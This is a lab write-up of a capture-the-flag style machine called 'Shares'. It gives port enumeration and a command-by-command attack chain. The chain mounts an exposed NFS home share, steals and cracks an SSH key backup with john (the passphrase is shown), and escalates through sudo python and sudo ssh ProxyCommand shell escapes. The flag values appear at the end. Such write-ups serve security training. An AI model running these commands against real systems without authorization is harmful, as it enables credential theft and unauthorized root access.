

# Shares

**IP Address:** 172.31.1.7

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 111/tcp | open | rpcbind |  2-4 |
| 2049/tcp | open | nfs_acl |  3 |
| 21/tcp | open | ftp | vsftpd 3.0.3 |
| 27853/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 35065/tcp | open | mountd |  1-3 |
| 39233/tcp | open | nlockmgr |  1-4 |
| 42683/tcp | open | mountd |  1-3 |
| 57601/tcp | open | mountd |  1-3 |
| 80/tcp | open | http | Apache httpd 2.4.29 |
| 135/udp | open|filtered | msrpc |   |
| 161/udp | open|filtered | snmp |   |
| 68/udp | open|filtered | dhcpc |   |


## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Mount the share, download the ssh key backup and crack it using john. 

Commands
```
mount -t nfs $ip:/home/amir amir/ -o nolock
cp amir/.ssh/id_rsa.bak id_rsa
ssh2john.py id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


2. Change the permissions on the ssh key and use it to login via ssh. 

Commands
```
chmod 600 id_rsa
ssh amir@$ip -i id_rsa -p 27853
hello6
```



3. Migrate to the amy user account using sudo. 

Commands
```
sudo -u amy python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
cat /home/amy/access.txt
```


## Privilege Escalation
### Exploit Details (SUDO (ssh))
* **Name** - SUDO (ssh)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A


Commands
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
whoami
cat /root/system.txt
```


## Loot
```
access.txt
dc17a108efc49710e2fd5450c492231c
system.txt
b910aca7fe5e6fcb5b0d1554f66c1506
```